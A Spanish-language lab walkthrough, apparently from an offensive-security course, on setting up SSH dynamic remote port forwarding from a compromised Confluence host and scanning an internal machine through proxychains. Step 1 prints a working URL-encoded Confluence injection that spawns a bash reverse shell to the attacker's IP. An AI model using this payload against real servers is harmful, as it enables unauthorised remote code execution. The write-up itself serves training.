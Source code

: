 # Walk: Port Redirection and SSH Tunneling - SSH Dynamic Remote Port Forwarding - VM Group 1

## Fecha: 23/03/2025
## Host: PGDATABASE01 | CONFLUENCE01 | MULTISERVER03
## IP: 10.4.xxx.215 |  192.168.xxx.63 | 192.168.xxx.64
## Objetivo
Follow the steps in this section to set up a remote dynamic port forward from CONFLUENCE01. Scan ports 9050-9100 on MULTISERVER03 through it. Which port is open? (Note: Make sure to scan MULTISERVER03 on its internal interface at 10.4.X.64).
## Herramientas
1. ssh
2. systemctl
## Procedimiento y comandos
#### Paso 1: Cambiamos el puerto en el payload a 7777
1. Cambiamos 
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.3.3-SSH-Remote-PortForwarding]
└─# curl -v http://192.168.xxx.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.xxx/7777%200%3E%261%27%29.start%28%29%22%29%7D/
...
```
2. Iniciamos el servicio
`sudo systemctl start ssh`
#### Paso 2: Configuramos el tunel desde _CONFLUENCE_
1. Nos conectamos a CONFLUENCE como en las maquinas anteriores:
```
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'
</bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ ssh -N -R 9998 kali@192.168.45.xxx
ssh -N -R 9998 kali@192.168.45.xxx
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.45.xxx (192.168.45.xxx)' can't be established.
ECDSA key fingerprint is SHA256:A44ctMNCG48aRHny80MXOphfYTv3LcRjemm+4lxN2gw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
kali@192.168.45.198's password: 
```
#### Paso 3: Obtenemos el flag
1. Desde kali comprobamos la configuracion del tunel:
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.3.4-SSH-Dynamic-Remote-PortForwarding]
└─# proxychains nmap -vvv -sT -p 9050-9100 -Pn --open 10.4.xxx.215

```   
